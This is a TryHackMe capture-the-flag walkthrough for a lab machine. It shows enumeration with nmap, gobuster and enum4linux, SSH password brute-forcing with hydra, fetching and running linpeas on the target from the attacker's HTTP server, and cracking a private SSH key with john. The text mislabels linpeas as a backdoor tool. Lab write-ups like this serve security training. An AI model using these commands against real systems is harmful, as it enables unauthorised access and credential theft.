



# Basic Pentesting - TryHackMe CTF Walkthrough
---

| **Description:**  | _This is a machine that allows you to practise web app hacking and privilege escalation._ |
| ------------- | ------------- |
| **Level:**  | _Easy_   |
| **Approx Duration:**  | _45 minutes_  |
| **Author:**  | _https://tryhackme.com/p/ashu_  |
| **Path:**  | _Offensive Penetration Testing_  |
| **Type:**  | _Free Room_  |

---

https://tryhackme.com/room/basicpentestingjt

Pre-requisite: Boot up the target machine attached to this room and also boot up kali linux and create a tunnel connection to the target machine via openvpn.

---

## Recon

First and foremost we need gather as much information as possible about the target machine, so ideally our first step of engagement would be to do an enumeration.

I have used nmap to scan open ports on the machine and tried to find what services are running on those ports using the basic nmap scan.

```
nmap target_ip -sV
```


The scan has revealed that the machine has 6 open ports and their corresponding service, now lets take a close look at each port and understand what type of services they run.

We have also found that the machine is hosted by linux operating system.

The port 80 run a apache httpd 2.4.41 service, which is a webserver, we can visit the webserver on the browser by navigating to the `http:\\target-ip\`. 


We are not able to gain any useful information directly from the webserver, as next step in our enumeration we will use a tool called `gobuster` for directory enumeration.

Simple usage of gobuster in directory mode:

```
gobuster dir -u target-ip -w /path-to-wordlist
```

For this directory brute force we need a wordlist, I am using `common.txt` from SecLists. If you do not have it installed already, install the entrire SecList or just get the common.txt from seclist github page.

```
apt-get install seclists
```



Gobuster has found few common directories on the server, most of them are forbidden, but we can see a directory which has status code 301 which means its been moved.

Let's try and navigate to the directory using browser.

```
http:\\10.10.101.75\development
```



from the development directory we can see that there 2 text files and comparing the context of the file and the nmap scan result we got from earlier. We can understand that apache server and SMB has been set up and might be worth looking into it.




We need to find the username and password using the hints from above text files.

Let's try to enumerate smb using `enum4linux`

```
enum4linux -a target-ip
```

This has enumerated the smb and found valid usernames.


Now we know what j and k means from the txt files.

With the username obtained, we can use hydra to bruteforce the password using a wordlist from secLists.

```
hyrda -l jan -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/darkweb2017_top-10000.txt target-ip ssh 
```


With the username and password we got, try to login into ssh with the credentials.

```
ssh jan@target-ip
```

Enter password when prompted.

Now that we are logged in, need to create a reverse shell. Linpeas is a tool that can be uploaded to machine that creates backdoors.

On kali linux, execute the following commands.

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh 
python3 -m http.server 80
```

On the target machine, upload the linpeas tool.

```
wget http://10.17.17.81/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```


Linpeas has enumerated more files and folders apart from previously found files.

I have located id_rsa file in `kay` user profile, but the issue is we do not know the password of kay but we can use this ssh key to authenticate as the user without username and password.


Copy the ssh key to your kali machine and save it.

convert ssh into john hash

```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

unzip rockyou.txt

Kali comes with rockyou.txt.gz (compressed), so follow these steps:

```
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Run john command to crack the hash.

```
sudo john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt
```

We have cracked password of the user `kay`.


With this password we can login as kay.


Use the retrieved password whem prompted.


Successfully logged in as kay.

Look around the files saved under this profile, find the interesting file and cat out the file.


This task completes the challenge. 
---